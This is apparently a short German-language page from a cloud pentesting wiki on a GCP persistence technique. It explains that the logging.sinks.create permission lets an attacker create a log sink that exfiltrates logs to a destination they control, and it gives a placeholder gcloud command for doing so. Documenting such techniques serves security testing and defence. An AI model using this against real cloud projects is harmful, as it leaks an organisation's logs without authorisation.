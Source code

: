 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Finden Sie weitere Informationen zu Logging in:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Erstellen Sie einen Sink, um die Protokolle an ein für Angreifer zugängliches Ziel zu exfiltrieren:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
